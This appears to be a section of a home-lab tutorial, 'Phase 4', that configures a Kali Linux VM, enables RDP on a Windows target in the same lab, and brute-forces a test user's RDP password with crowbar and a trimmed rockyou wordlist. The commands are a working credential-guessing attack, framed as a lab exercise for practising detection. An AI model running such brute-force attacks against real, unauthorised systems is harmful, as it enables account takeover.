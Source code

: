 ### Phase 4 - Kali Linux Attack Simulation Against Target Machine

#### 1. Network Configuration

1. Power on the Kali Linux VM and authenticate
2. From the desktop, right-click the network connections icon in the top-right corner
3. Edit Connections > Wired connection 1 > Edit selected connection > IPv4 Settings
4. Set Method to "Manual" > Add:
   - Address: `192.168.10.250`
   - Netmask: `24`
   - Gateway: `192.168.10.1`
   - DNS servers: `8.8.8.8`
5. Save, disconnect, then reconnect to the network
6. Launch terminal and execute `ip a` to verify the configuration changes
7. Validate connectivity:
   ```bash
   ping google.com
   ping 192.168.10.10
   sudo apt-get update && sudo apt-get upgrade -y
   ```

#### 2. Attack Preparation

1. Execute:
   ```bash
   mkdir ad-project
   sudo apt-get install -y crowbar
   ```
2. Navigate to wordlists:
   ```bash
   cd /usr/share/wordlists
   ls
   sudo gunzip rockyou.txt.gz
   cp rockyou.txt ~/Desktop/ad-project
   cd ~/Desktop/ad-project
   head -n 20 rockyou.txt > passwords.txt
   ```

#### 3. Remote Desktop Protocol Activation

1. On the target machine, search for "This PC" > Properties > Advanced System Settings > Remote
2. Check "Allow remote connections to this computer" > Select users > Add
3. Enter the usernames created earlier such as "jsmith" and "tsmith" > Apply

#### 4. Attack Execution

1. Return to the Kali Linux machine
2. Execute:
   ```bash
   crowbar -h  # Review tool options and usage
   crowbar -b rdp -u tsmith -C passwords.txt -s 192.168.10.100/32
   ```
3. If a password within `passwords.txt` matches the password assigned to the specified user, you will receive a success message displaying the compromised credentials
